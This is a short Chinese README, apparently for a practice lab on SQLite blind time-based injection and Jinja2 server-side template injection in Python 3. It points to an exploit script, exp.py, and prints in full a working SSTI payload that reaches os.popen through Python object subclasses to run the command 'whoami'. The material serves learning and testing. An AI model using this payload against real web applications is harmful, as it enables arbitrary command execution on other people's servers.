 python3环境下的sqlite3跟ssti

python main.py 运行环境

注入exp在：exp.py

由于环境不同，延时注入的返回时间可能不同，请自行调试。
代码较为冗长，都是用的同一种方法盲注


ssti的payload为：    
{% for c in ''.__class__.__base__.__subclasses__() %}
{% if c.__name__=='catch_warnings' %}
{{ c.__init__.__globals__.get('__builtins__').get('__import__')("os").popen('whoami').read() }}
{% endif %}
{% endfor %}